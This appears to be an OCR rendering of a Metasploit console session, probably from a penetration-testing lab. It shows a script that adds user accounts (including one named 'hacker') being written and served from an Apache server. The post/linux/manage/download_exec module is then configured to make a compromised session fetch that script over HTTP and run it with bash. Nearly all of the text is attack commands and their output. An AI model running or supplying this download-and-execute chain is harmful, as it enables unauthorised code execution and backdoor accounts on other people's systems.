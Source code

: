 ```
msf5 post(multi/manage/system_session) > echo "useradd hacker\nuseradd test\nuseradd nick" > test.sh
[*] exec: echo "useradd hacker\nuseradd test\nuseradd nick" > test.sh

msf5 post(multi/manage/system_session) > pwd
[*] exec: pwd

/root
msf5 post(multi/manage/system_session) > cat test.sh
[*] exec: cat test.sh

useradd hacker
useradd test
useradd nick
msf5 post(multi/manage/system_session) > /etc/init.d/apache2 start
[*] exec: /etc/init.d/apache2 start

Starting Apache httpd web server: apache2.
msf5 post(multi/manage/system_session) > cp test.sh /var/www/html/
[*] exec: cp test.sh /var/www/html/
msf5 post(linux/manage/download_exec) > curl http://192.141.94.2/test.sh
[*] exec: curl http://192.141.94.2/test.sh

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    41  100    41    0     0  20500      0 --:--:-- --:--:-- --:--:-- 20500
useradd hacker
useradd test
useradd nick
```

```
msf5 post(multi/manage/system_session) > use post/linux/manage/download_exec
msf5 post(linux/manage/download_exec) > info

       Name: Linux Manage Download and Execute
     Module: post/linux/manage/download_exec
   Platform: Linux
       Arch: 
       Rank: Normal

Provided by:
  Joshua D. Abraham <jabra@praetorian.com>

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on.
  URL                       yes       Full URL of file to download.

Description:
  This module downloads and runs a file with bash. It first tries to 
  uses curl as its HTTP client and then wget if it's not found. Bash 
  found in the PATH is used to execute the file.
msf5 post(linux/manage/download_exec) > set SESSION 7
SESSION => 7
msf5 post(linux/manage/download_exec) > set URL http://192.141.94.2/test.sh
URL => http://192.141.94.2/test.sh
msf5 post(linux/manage/download_exec) > run

```